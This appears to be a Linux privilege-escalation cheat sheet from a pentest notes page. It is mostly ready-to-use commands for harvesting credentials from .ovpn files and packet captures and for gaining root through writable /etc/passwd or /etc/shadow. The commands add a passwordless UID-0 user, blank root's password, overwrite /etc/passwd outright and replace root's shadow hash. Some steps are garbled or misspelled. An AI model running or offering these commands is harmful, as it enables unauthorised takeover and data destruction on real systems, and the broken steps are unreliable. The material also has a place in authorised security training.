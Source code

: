 # OpenVPN Credentials

```
locate *.ovpn                       
```

# Credentials in tcpdump files

```
tcpdump -nt -r capture.pcap -A 2>/dev/null | grep -P 'pwd='                    
```

# Writable Password Files
If you have write permission to the following files:

- /etc/passwd
- /etc/shadow
- /etc/sudoers



/etc/passwd
```
   echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
   su - root2
   id && whoami
   
// Add new user to the system with GID and UID of 0   
   
OR
   
  vi /etc/passwd
  Remote X (Password Holder) for root
  wg!
  su root
  id && whoami
  
// Remove root's password  
  
OR

  echo root::0:0:root:/root:/bin/bash > /etc/passwd
  id && whomai
  
OR

openssl passwd -1 -salt ignite NewRootPassword
Copy output
echo "root2:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd
Replace <output> with the copied output
su root2
id && whoami
  
```  
/etc/shadow 
```  

   Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
   Copy the output
   vi /etc/shadow
   Replace root's hash with the output that you generated
   wq!
   su root 
   id && whoami
```
